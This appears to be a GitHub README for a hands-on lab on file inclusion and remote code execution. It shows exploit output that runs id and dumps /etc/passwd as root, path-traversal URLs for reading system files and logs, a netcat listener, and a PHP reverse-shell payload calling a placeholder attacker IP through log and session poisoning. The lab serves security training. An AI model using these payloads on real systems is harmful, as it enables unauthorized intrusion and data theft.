 # File Inclusion Vulnerability 

![](https://miro.medium.com/max/720/1*V7o5fQMyMPXuMDKChd8MMw.jpeg)

## Let know Remote Code Execution
### What does RCE mean?
- RCE refers to the mechanism by which a network flaw is abused by an agent to execute arbitrary code on a targeted device or machine.

### What is an RCE attack?
- An intrusion by remote code execution (RCE) occurs when an adversary is unauthorized to illicit access and control a device or server. Most of the time malware is used to take over the system.
* https://socradar.io/top-5-remote-code-execution-rce-attacks-in-2020/ *

### Type of Remote Code Execution
- Reverse Shell
- Bind Shell


![](https://socradar.io/wp-content/uploads/2021/01/how-does-rce-work-1024x574.png)

#### Reverse Shell
- The first, need install `netcat` in macos by `brew install netcat`, if use linux environment, can `nc` command.
- `netcat -lnvp ${port}` to listen tcp from the victim send

* https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/ *

## Build Lab
- make build
- make up
- make logs
- make restart

## Lab Upload file sym link to rce
- url: `http://0.0.0.0:1337/`
- in this lab, prepare a tar.gz file and upload, the web app will extract file upload.
- to exploit lab, run command: `python3 tool_exploit/solution.py`

```

admin@Admins-MacBook-Pro 003_lfi % python3 tool_exploit/solution.py
exploit success

command: id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

command: hello

command: cat /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

## Lab Local file inclusion
### LFI to RCE via log
- the first, sign up account and login. `http://0.0.0.0/index.php?page=signup.php`
- we can see `?page=signup.php`, replace to `?page=../../../../../../etc/passwd`, `http://0.0.0.0/index.php?page=../../../../../../etc/passwd`
- we can check it is lfi vuln, continue check can read logs,`http://0.0.0.0/index.php?page=../../../../../../var/log/nginx/access.log`
- injection payload `<?php system('/bin/bash -c "bash -i >& /dev/tcp/${ip_attacker}/${port_listen} 2>&1"'); ?>` into `User-Agent header`, should use python request
- after request, execute command `netcat -lnvp ${port_listen}` and then trigger url `http://0.0.0.0/index.php?page=../../../../../../var/log/nginx/access.log`

### LFI to RCE via php_session
- it as same as above
- need insert payload attack into username and trigger url `http://0.0.0.0/index.php?page=../../../../../../var/lib/php/sessions/sess_${session-attacker}`
- in screen_shot, session attacker is `r4mrd669at2n2022pniebfqd0j`
![](https://raw.githubusercontent.com/magnetohvcs/payload/master/image/Screen%20Shot%202022-06-24%20at%2011.55.01.png)
